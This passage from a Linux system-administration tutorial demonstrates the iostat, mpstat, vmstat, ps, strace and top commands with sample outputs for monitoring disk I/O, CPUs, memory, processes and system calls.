sda1            178.20       773.45      1329.09 1917686794 3295354888
sda2             16.51       323.19       269.61  801326686  668472456
sdb             371.31       945.97      1073.33 2345452365 2661206408
sdb1            371.31       945.95      1073.33 2345396901 2661206408

sdc             408.03       207.05       972.42  513364213 2411023092
sdc1            408.03       207.03       972.42  513308749 2411023092

By default iostat displays I/O data for all the disks available in the system. 
To view statistics for a specific device (For example, /dev/sda), use the option -p as shown below.

$ iostat -p sda
Linux 2.6.32-100.28.5.el6.x86_64 (dev-db)       07/09/2011

avg-cpu:  %user   %nice %system %iowait  %steal   %idle
           5.68    0.00    0.52    2.03    0.00   91.76

Device:            tps   Blk_read/s   Blk_wrtn/s   Blk_read   Blk_wrtn
sda             194.69      1096.51      1598.48 2719069928 3963829584
sda2            336.38        27.17        54.00   67365064  133905080
sda1            821.89         0.69       243.53    1720833  603892838

* Mpstat

mpstat reports processors statistics. The following are some of mpstat command examples.

Option -A, displays all the information that can be displayed by the mpstat command as shown below. This is really equivalent to “mpstat -I ALL -u -P ALL” command.

$ mpstat -A
Linux 2.6.32-100.28.5.el6.x86_64 (dev-db)       07/09/2011      _x86_64_        (4 CPU)

10:26:34 PM  CPU    %usr   %nice    %sys %iowait    %irq   %soft  %steal  %guest   %idle
10:26:34 PM  all    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00   99.99
10:26:34 PM    0    0.01    0.00    0.01    0.01    0.00    0.00    0.00    0.00   99.98
10:26:34 PM    1    0.00    0.00    0.01    0.00    0.00    0.00    0.00    0.00   99.98
10:26:34 PM    2    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00  100.00
10:26:34 PM    3    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00  100.00

10:26:34 PM  CPU    intr/s
10:26:34 PM  all     36.51
10:26:34 PM    0      0.00
10:26:34 PM    1      0.00
10:26:34 PM    2      0.04
10:26:34 PM    3      0.00

10:26:34 PM  CPU     0/s     1/s     8/s     9/s    12/s    14/s    15/s    16/s    19/s    20/s    21/s    33/s   NMI/s   LOC/s   SPU/s   PMI/s   PND/s   RES/s   CAL/s   TLB/s   TRM/s   THR/s   MCE/s   MCP/s   ERR/s   MIS/s
10:26:34 PM    0    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    7.47    0.00    0.00    0.00    0.00    0.02    0.00    0.00    0.00    0.00    0.00    0.00    0.00
10:26:34 PM    1    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    4.90    0.00    0.00    0.00    0.00    0.03    0.00    0.00    0.00    0.00    0.00    0.00    0.00
10:26:34 PM    2    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.04    0.00    0.00    0.00    0.00    0.00    3.32    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00

mpstat Option -P ALL, displays all the individual CPUs (or Cores) along with its statistics as shown below.

$ mpstat -P ALL
Linux 2.6.32-100.28.5.el6.x86_64 (dev-db)       07/09/2011      _x86_64_        (4 CPU)

10:28:04 PM  CPU    %usr   %nice    %sys %iowait    %irq   %soft  %steal  %guest   %idle
10:28:04 PM  all    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00   99.99
10:28:04 PM    0    0.01    0.00    0.01    0.01    0.00    0.00    0.00    0.00   99.98
10:28:04 PM    1    0.00    0.00    0.01    0.00    0.00    0.00    0.00    0.00   99.98
10:28:04 PM    2    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00  100.00
10:28:04 PM    3    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00  100.00

* Vmstat

vmstat reports virtual memory statistics. The following are some of vmstat command examples.

vmstat by default will display the memory usage (including swap) as shown below.

$ vmstat
procs -----------memory---------- ---swap-- -----io---- --system-- -----cpu------
 r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa st
 0  0 305416 260688  29160 2356920    2    2     4     1    0    0  6  1 92  2  0

To execute vmstat every 2 seconds for 10 times, do the following. After executing 10 times, it will stop automatically.
$ vmstat 2 10
procs -----------memory---------- ---swap-- -----io---- --system-- -----cpu-----
 r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa st
 1  0      0 537144 182736 6789320    0    0     0     0    1    1  0  0 100  0  0
 0  0      0 537004 182736 6789320    0    0     0     0   50   32  0  0 100  0  0
..

iostat and vmstat are part of the sar utility. You should install sysstat package to get iostat and vmstat working.

* ps
Process is a running instance of a program. Linux is a multitasking operating system, which means that more than one process can be active at once. Use ps command to find out what processes are running on your system.

This article explains 7 practical usages of ps command and its options.

To monitor and control the processes, Linux provides lot of commands such as ps, kill, killall, nice, renice and top commands.
1. List Currently Running Processes (ps -ef, ps -aux)

Its a commonly used example with a ps command to list down all the process which are currently running in a machine. The following example shows the options of ps command to get all the processes.

$ ps -ef
root     26551     5  0 Feb10 ?        00:03:41 [pdflush]
root     26570     5  0 Feb10 ?        00:00:20 [pdflush]
root     30344  3382  0 Feb21 ?        00:00:11 sshd: root@pts/14
root     30365 30344  0 Feb21 pts/14   00:00:02 -bash
root     30393  3382  0 Feb21 ?        00:00:10 sshd: root@pts/15

Where:

    -e to display all the processes.
    -f to display full format listing.

In case of BSD machines, you can use ‘ps -aux’ will give the details about all the process as shown above.

$ ps -aux

2. List the Process based on the UID and Commands (ps -u, ps -C)

Use -u option to displays the process that belongs to a specific username. When you have multiple username, separate them using a comma. The example below displays all the process that are owned by user wwwrun, or postfix.

$ ps -f -u wwwrun,postfix
UID        PID  PPID  C STIME TTY          TIME CMD
postfix   7457  7435  0 Mar09 ?        00:00:00 qmgr -l -t fifo -u
wwwrun    7495  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun    7496  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun    7497  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun    7498  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun    7499  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun   10078  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun   10082  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
postfix  15677  7435  0 22:23 ?        00:00:00 pickup -l -t fifo -u

Often ps is used with grep like “ps -aux | grep command” to get the list of process with the given command.

But ps command itself has an option to achieve the same. The following example shows that all the processes which has tatad.pl in its command execution.

$ ps -f -C tatad.pl
UID        PID  PPID  C STIME TTY          TIME CMD
root      9576     1  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9577  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9579  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9580  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9581  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9582  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root     12133  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl

Note: We can create aliases for ps command to list processes based on commands, users or groups.
3. List the processes based on PIDs or PPIDs (ps -p, ps –ppid)

Each process will be assigned with the unique Process ID (PID).

When you launch some application, it might fork number of processes and each sub process will have its own PID. So, each process will have its own process id and parent processid.

For all the processes that a process forks will have the same PPID (parent process identifier). The following method is used to get a list of processes with a particular PPID.

$ ps -f --ppid 9576
UID        PID  PPID  C STIME TTY          TIME CMD
root      9577  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9579  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9580  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9581  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9582  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root     12133  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl

The following example is to list the processes which has given PID.

$ ps -f  -p 25009,7258,2426
UID        PID  PPID  C STIME TTY          TIME CMD
root      2426     4  0 Mar09 ?        00:00:00 [reiserfs/0]
root      7258     1  0 Mar09 ?        00:00:00 /usr/sbin/nscd
postfix  25009  7435  0 00:02 ?        00:00:00 pickup -l -t fifo -u

4. List Processes in a Hierarchy (ps –forest)

The example below display the process Id and commands in a hierarchy. –forest is an argument to ps command which displays ASCII art of process tree. From this tree, we can identify which is the parent process and the child processes it forked in a recursive manner.

$ ps -e -o pid,args --forest
  468  \_ sshd: root@pts/7
  514  |   \_ -bash
17484  \_ sshd: root@pts/11
17513  |   \_ -bash
24004  |       \_ vi ./790310__11117/journal
15513  \_ sshd: root@pts/1
15522  |   \_ -bash
 4280  \_ sshd: root@pts/5
 4302  |   \_ -bash

Note: You can also use tree and pstree command to displays process in a nice tree structure.
5. List elapsed wall time for processes (ps -o pid,etime=)

If you want the get the elapsed time for the processes which are currently running ps command provides etime which provides the elapsed time since the process was started, in the form [[dd-]hh:]mm:ss.

The below command displays the elapsed time for the process IDs 1 (init) and process id 29675.

For example “10-22:13:29″ in the output represents the process init is running for 10days, 22hours,13 minutes and 29seconds. Since init process starts during the system startup, this time will be same as the output of the ‘uptime’ command.

# ps -p 1,29675 -o pid,etime=
  PID
    1 10-22:13:29
29675  1-02:58:46

6. List all threads for a particular process (ps -L)

You can get a list of threads for the processes. 
When a process hangs, we might need to identify the list of threads running for a particular process as shown below.

 $ ps -C java -L -o pid,tid,pcpu,state,nlwp,args
  PID   TID %CPU S NLWP COMMAND
16992 16992  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16993  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16994  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16995  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16996  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16997  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16998  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16999  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 17000  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 17001  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 17002  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 17003  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 17024  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 15753  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 15754  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006

-L option is used to display the list of threads for a process which has the command given. 
And it also displays nlwp, which represents number of light weight processes. 
In the above example, a total of 15 java threads are running.
7. Finding memory Leak (ps –sort pmem)

A memory leak, technically, is an ever-increasing usage of memory by an application.

With common desktop applications, this may go unnoticed, 
because a process typically frees any memory it has used when you close the application.

However, In the client/server model, memory leakage is a serious issue,
 because applications are expected to be available 24×7. 
Applications must not continue to increase their memory usage indefinitely, 
because this can cause serious issues. To monitor such memory leaks, we can use the following commands.

$ ps aux --sort pmem

USER       PID %CPU %MEM   VSZ  RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0  1520  508 ?        S     2005   1:27 init
inst  1309  0.0  0.4 344308 33048 ?      S     2005   1:55 agnt (idle)
inst  2919  0.0  0.4 345580 37368 ?      S     2005  20:02 agnt (idle)
inst 24594  0.0  0.4 345068 36960 ?      S     2005  15:45 agnt (idle)
root 27645  0.0 14.4 1231288 1183976 ?   S     2005   3:01 /TaskServer/bin/./wrapper-linux-x86-32

In the above ps command, –sort option outputs the highest %MEM at bottom. 
Just note down the PID for the highest %MEM usage. 
Then use ps command to view all the details about this process id, and monitor the change over time. 
You had to manually repeat ir or put it as a cron to a file.

$ ps ev --pid=27645
PID TTY STAT TIME MAJFL TRS DRS RSS %MEM COMMAND
27645 ? S 3:01 0 25 1231262 1183976 14.4 /TaskServer/bin/./wrapper-linux-x86-32

$ ps ev --pid=27645
PID TTY STAT TIME MAJFL TRS DRS RSS %MEM COMMAND
27645 ? S 3:01 0 25 1231262 1183976 14.4 /TaskServer/bin/./wrapper-linux-x86-32

Note: In the above output, if RSS (resident set size, in KB) increases over time (so would %MEM),
 it may indicate a memory leak in the application.

* strace
Strace is a debugging tool that will help you troubleshoot issues.

Strace monitors the system calls and signals of a specific program. It is helpful when you do not have the source code and would like to debug the execution of a program. strace provides you the execution sequence of a binary from start to end.

This article explains 7 strace examples to get you started.
1. Trace the Execution of an Executable

You can use strace command to trace the execution of any executable. The following example shows the output of strace for the Linux ls command.

$  strace ls
execve("/bin/ls", ["ls"], [/* 21 vars */]) = 0
brk(0)                                  = 0x8c31000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb78c7000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=65354, ...}) = 0
...
...
...

2. Trace a Specific System Calls in an Executable Using Option -e

Be default, strace displays all system calls for the given executable. To display only a specific system call, use the strace -e option as shown below.

$ strace -e open ls
open("/etc/ld.so.cache", O_RDONLY)      = 3
open("/lib/libselinux.so.1", O_RDONLY)  = 3
open("/lib/librt.so.1", O_RDONLY)       = 3
open("/lib/libacl.so.1", O_RDONLY)      = 3
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/lib/libdl.so.2", O_RDONLY)       = 3
open("/lib/libpthread.so.0", O_RDONLY)  = 3
open("/lib/libattr.so.1", O_RDONLY)     = 3
open("/proc/filesystems", O_RDONLY|O_LARGEFILE) = 3
open("/usr/lib/locale/locale-archive", O_RDONLY|O_LARGEFILE) = 3
open(".", O_RDONLY|O_NONBLOCK|O_LARGEFILE|O_DIRECTORY|O_CLOEXEC) = 3
Desktop  Documents  Downloads  examples.desktop  libflashplayer.so
Music  Pictures  Public  Templates  Ubuntu_OS  Videos

The above output displays only the open system call of the ls command. At the end of the strace output, it also displays the output of the ls command.

If you want to trace multiple system calls use the “-e trace=” option. The following example displays both open and read system calls.

$ strace -e trace=open,read ls /home
open("/etc/ld.so.cache", O_RDONLY)      = 3
open("/lib/libselinux.so.1", O_RDONLY)  = 3
read(3, "\177ELF\1\1\1\3\3\1\260G004"..., 512) = 512
open("/lib/librt.so.1", O_RDONLY)       = 3
read(3, "\177ELF\1\1\1\3\3\1\300\30004"..., 512) = 512
..
open("/lib/libattr.so.1", O_RDONLY)     = 3
read(3, "\177ELF\1\1\1\3\3\1\360\r004"..., 512) = 512
open("/proc/filesystems", O_RDONLY|O_LARGEFILE) = 3
read(3, "nodev\tsysfs\nnodev\trootfs\nnodev\tb"..., 1024) = 315
read(3, "", 1024)                       = 0
open("/usr/lib/locale/locale-archive", O_RDONLY|O_LARGEFILE) = 3
open("/home", O_RDONLY|O_NONBLOCK|O_LARGEFILE|O_DIRECTORY|O_CLOEXEC) = 3
bala

3. Save the Trace Execution to a File Using Option -o

The following examples stores the strace output to output.txt file.

$ strace -o output.txt ls
Desktop  Documents  Downloads  examples.desktop  libflashplayer.so
Music  output.txt  Pictures  Public  Templates  Ubuntu_OS  Videos

$ cat output.txt
execve("/bin/ls", ["ls"], [/* 37 vars */]) = 0
brk(0)                                  = 0x8637000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7860000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=67188, ...}) = 0
...
...

4. Execute Strace on a Running Linux Process Using Option -p

You could execute strace on a program that is already running using the process id. First, identify the PID of a program using ps command.

For example, if you want to do strace on the firefox program that is currently running, identify the PID of the firefox program.

$ ps -C firefox-bin
  PID TTY          TIME CMD
 1725 ?        00:40:50 firefox-bin

Use strace -p option as shown below to display the strace for a given process id.

$  sudo strace -p 1725 -o firefox_trace.txt

$ tail -f firefox_trace.txt

Now the execution trace of firefox process will be logged into firefox_trace.txt text file. You can tail this text file to watch the live trace of the firefox executable.

Strace will display the following error when your user id does not match the user id of the given process.

$  strace -p 1725 -o output.txt
attach: ptrace(PTRACE_ATTACH, ...): Operation not permitted
Could not attach to process.  If your uid matches the uid of the target
process, check the setting of /proc/sys/kernel/yama/ptrace_scope, or try
again as the root user.  For more details, see /etc/sysctl.d/10-ptrace.conf

5. Print Timestamp for Each Trace Output Line Using Option -t

To print the timestamp for each strace output line, use the option -t as shown below.

$ strace -t -e open ls /home
20:42:37 open("/etc/ld.so.cache", O_RDONLY) = 3
20:42:37 open("/lib/libselinux.so.1", O_RDONLY) = 3
20:42:37 open("/lib/librt.so.1", O_RDONLY) = 3
20:42:37 open("/lib/libacl.so.1", O_RDONLY) = 3
20:42:37 open("/lib/libc.so.6", O_RDONLY) = 3
20:42:37 open("/lib/libdl.so.2", O_RDONLY) = 3
20:42:37 open("/lib/libpthread.so.0", O_RDONLY) = 3
20:42:37 open("/lib/libattr.so.1", O_RDONLY) = 3
20:42:37 open("/proc/filesystems", O_RDONLY|O_LARGEFILE) = 3
20:42:37 open("/usr/lib/locale/locale-archive", O_RDONLY|O_LARGEFILE) = 3
20:42:37 open("/home", O_RDONLY|O_NONBLOCK|O_LARGEFILE|O_DIRECTORY|O_CLOEXEC) = 3
bala

6. Print Relative Time for System Calls Using Option -r

Strace also has the option to print the execution time for each system calls as shown below.

$ strace -r ls
     0.000000 execve("/bin/ls", ["ls"], [/* 37 vars */]) = 0
     0.000846 brk(0)                    = 0x8418000
     0.000143 access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
     0.000163 mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb787b000
     0.000119 access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory)
     0.000123 open("/etc/ld.so.cache", O_RDONLY) = 3
     0.000099 fstat64(3, {st_mode=S_IFREG|0644, st_size=67188, ...}) = 0
     0.000155 mmap2(NULL, 67188, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb786a000
     ...
     ...

7. Generate Statistics Report of System Calls Using Option -c

Using option -c, strace provides useful statistical report for the execution trace. The “calls” column in the following output indicated how many times that particular system call was executed.

$ strace -c ls /home
bala
% time     seconds  usecs/call     calls    errors syscall
------ ----------- ----------- --------- --------- ----------------
  -nan    0.000000           0         9           read
  -nan    0.000000           0         1           write
  -nan    0.000000           0        11           open
  -nan    0.000000           0        13           close
  -nan    0.000000           0         1           execve
  -nan    0.000000           0         9         9 access
  -nan    0.000000           0         3           brk
  -nan    0.000000           0         2           ioctl
  -nan    0.000000           0         3           munmap
  -nan    0.000000           0         1           uname
  -nan    0.000000           0        11           mprotect
  -nan    0.000000           0         2           rt_sigaction
  -nan    0.000000           0         1           rt_sigprocmask
  -nan    0.000000           0         1           getrlimit
  -nan    0.000000           0        25           mmap2
  -nan    0.000000           0         1           stat64
  -nan    0.000000           0        11           fstat64
  -nan    0.000000           0         2           getdents64
  -nan    0.000000           0         1           fcntl64
  -nan    0.000000           0         2         1 futex
  -nan    0.000000           0         1           set_thread_area
  -nan    0.000000           0         1           set_tid_address
  -nan    0.000000           0         1           statfs64
  -nan    0.000000           0         1           set_robust_list
------ ----------- ----------- --------- --------- ----------------
100.00    0.000000                   114        10 total

* top

In this article, let us review 15 examples for Linux top command that will be helpful for both newbies and experts.
** Get a quick command line option help using top -h as shown below.

$ top -h
        top: procps version 3.2.0
usage:  top -hv | -bcisS -d delay -n iterations [-u user | -U user] -p pid [,pid ...]

Press h while top command is running, which will display help for interactive top commands.

Help for Interactive Commands - procps version 3.2.0
Window 1:Def: Cumulative mode Off.  System: Delay 3.0 secs; Secure mode Off.

  Z,B       Global: 'Z' change color mappings; 'B' disable/enable bold
  l,t,m     Toggle Summaries: 'l' load avg; 't' task/cpu stats; 'm' mem info
  1,I       Toggle SMP view: '1' single/separate states; 'I' Irix/Solaris mode
  ..........

** Show Processes Sorted by any Top Output Column – Press O

By default top command displays the processes in the order of CPU usage.  
When the top command is running, press M (upper-case) to display processes sorted by memory usage as shown below.
Top Command Sort By Memory Usage

Fig: Press M to sort by memory usage – Unix top command

To sort top output by any column, Press O (upper-case O) , 
which will display all the possible columns that you can sort by as shown below.

Current Sort Field:  P  for window 1:Def
Select sort field via field letter, type any other key to return 

  a: PID        = Process Id              v: nDRT       = Dirty Pages count
  d: UID        = User Id                 y: WCHAN      = Sleeping in Function
  e: USER       = User Name               z: Flags      = Task Flags
  ........

When the linux top command is running, Press R, which does the sort in reverse order.
** Kill a Task Without Exiting From Top – Press k

Once you’ve located a process that needs to be killed, press ‘k’ which will ask for the process id, and signal to send.  
If you have the privilege to kill that particular PID, it will get killed successfully.

PID to kill: 1309
Kill PID 1309 with signal [15]: 
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent
 5136 root    16   0 38040  14m 9836 S    0  0.2   0:00.39 nautilus

3. Renice a Unix Process Without Exiting From Top – Press r

Press r, if you want to just change the priority of the process (and not kill the process). 
This will ask PID for renice, enter the PID and priority.


PID to renice: 1309
Renice PID 1309 to value: 
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent

** Display Selected User in Top Output Using top -u

 Use top -u to display a specific user processes only in the top command output.

$ top -u geek

While unix top command is running, press u which will ask for username as shown below.

Which user (blank for all): geek
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent

** Display Only Specific Process with Given PIDs Using top -p

Use top -p as shown below to display specific PIDs.

$ top -p 1309, 1882
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent

** Display All CPUs / Cores in the Top Output – Press 1 (one)

Top output by default shows CPU line for all the CPUs combined together as shown below.

top - 20:10:39 up 40 days, 23:02,  1 user,  load average: 4.97, 2.01, 1.25
Tasks: 310 total,   1 running, 309 sleeping,   0 stopped,   0 zombie
Cpu(s):  0.5%us,  0.7%sy,  0.0%ni, 92.3%id,  6.4%wa,  0.0%hi,  0.0%si,  0.0%st

Press 1 (one), when the top command is running, which will break the CPU down and show details for all the individual CPUs running on the system as shown below.

top - 20:10:07 up 40 days, 23:03,  1 user,  load average: 5.32, 2.38, 1.39
Tasks: 341 total,   3 running, 337 sleeping,   0 stopped,   1 zombie
Cpu0  :  7.7%us,  1.7%sy,  0.0%ni, 79.5%id, 11.1%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu1  :  0.3%us,  0.0%sy,  0.0%ni, 94.9%id,  4.7%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu2 :  3.3%us,  0.7%sy,  0.0%ni, 55.7%id, 40.3%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu3 :  5.0%us,  1.0%sy,  0.0%ni, 86.2%id,  7.4%wa,  0.0%hi,  0.3%si,  0.0%st
Cpu4  : 38.5%us,  5.4%sy,  0.3%ni,  0.0%id, 54.8%wa,  0.0%hi,  1.0%si,  0.0%st
Cpu5  :  0.0%us,  0.0%sy,  0.0%ni,100.0%id,  0.0%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu6  :  0.3%us,  0.7%sy,  0.0%ni, 97.3%id,  1.7%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu7  :  5.4%us,  4.4%sy,  0.0%ni, 82.6%id,  7.7%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu8 :  1.7%us,  1.7%sy,  0.0%ni, 72.8%id, 23.8%wa,  0.0%hi,  0.0%si,  0.0%st

** Refresh Unix Top Command Output On demand (or) Change Refresh Interval

By default, linux top command updates the output every 3.0 seconds. When you want to update the output on-demand, press space bar.

To change the output update frequency, press d in interactive mode, and enter the time in seconds as shown below.

Change delay from 3.0 to: 10
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent

** Highlight Running Processes in the Linux Top Command Output – Press z or b

Press z or b, which will highlight all running process as shown below.
Highlight Running Process on Ubuntu Linux Using Top Command

Fig: Ubuntu Linux – top command highlights running process
** Display Absolute Path of the Command and its Arguments – Press c

Press c which will show / hide command absolute path, and arguments as shown below.

  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 /usr/sbin/gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 /usr/sbin/gagent -l 0 -u pre

** Quit Top Command After a Specified Number of Iterations Using top -n

Until you press q, top continuously displays the output. If you would like to view only a certain iteration and want the top to exit automatically use -n option as shown below.

The following example will show 2 iterations of unix top command output and exit automatically

$ top -n 2

** Executing Unix Top Command in Batch Mode

If you want to execute top command in the batch mode use option -b as shown below.

$ top -b -n 1

Note: This option is very helpful when you want to capture the unix top command output to a readable text file as we discussed earlier.
11. Split Top Output into Multiple Panels – Press A

To display multiple views of top command output on the terminal, press A. You can cycle through these windows using ‘a’. This is very helpful, when you can sort the output on multiple windows using different top output columns.
12. Get Top Command Help from Command Line and Interactively

** Decrease Number of Processes Displayed in Top Output – Press n

Press n in the Interactive mode, which prompts for a number and shows only that. Following example will display only 2 process as a time.

Maximum tasks = 0, change to (0 is unlimited): 2
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent

** Toggle Top Header to Increase Number of Processes Displayed

By default top displays total number process based on the window height. If you like to see additional process you might want to eliminate some of the top header information.

